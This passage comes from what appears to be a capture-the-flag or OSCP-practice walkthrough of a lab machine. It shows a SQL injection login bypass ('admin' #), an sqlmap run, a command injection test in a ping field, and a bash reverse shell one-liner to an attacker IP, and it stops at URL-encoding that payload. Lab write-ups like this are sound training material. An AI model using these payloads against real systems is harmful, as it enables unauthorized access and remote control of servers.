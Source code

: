     admin' #

This bypasses authentication and presents us with the welcome page.

![](https://cdn-images-1.medium.com/max/2000/1*gzjFmx6KWS_fbUYaKHDJAw.png)

Generally, you would use sqlmap to check if the application is vulnerable to SQL injection, however, since I’m working towards my OSCP and sqlmap is not allowed, I had to resort to manual means.

Regardless, if you want to perform the attack using sqlmap, first intercept the request using Burp and save it in a file (login.txt). Then, run sqlmap on the request.

    sqlmap -v 4 -r login.txt

I used the verbosity level 4 so that I can see the payload sqlmap uses for each request.

![](https://cdn-images-1.medium.com/max/2080/1*jxxay73Vo5QZO204n3HLZw.png)

For the above payload we get a redirect to the welcome page. To test it out, go back to the browser and enter the payload in the username field. Then hit submit.

![](https://cdn-images-1.medium.com/max/2000/1*2Spbxzsu_cI_IiIdJrVzuw.png)

We’re presented with the login page!

![](https://cdn-images-1.medium.com/max/2000/1*0lUw-G6uCqlf7Mjzd0FZmA.png)

Now that we saw both the manual & automated way of exploiting SQL injections, let’s proceed with solving the box.

The commands being used on the welcome page are “traceroute” and “ping” so this specific functionality of the application clearly talks to the operating system. Let’s see if it’s vulnerable to command injection. Add the following in the input field and execute the code.

    8.8.8.8 & whoami

What the above command does is run the the preceding command (ping 8.8.8.8) in the background and execute the whoami command.

We get back the following result. It’s definitely vulnerable! The web server is running with the privileges of the web daemon user www-data.

![](https://cdn-images-1.medium.com/max/2000/1*K3dFDGqCBL3kKmpSaMs71g.png)

Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

**Note**: It’s not necessary to do this using Burp.

First, intercept the request with Burp and send it to Repeater (right click > Send to Repeater).

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

    /bin/bash -i >& /dev/tcp/10.10.14.6/4444 0>&1

Highlight the entire string and click on CTRL+U to URL encode it.
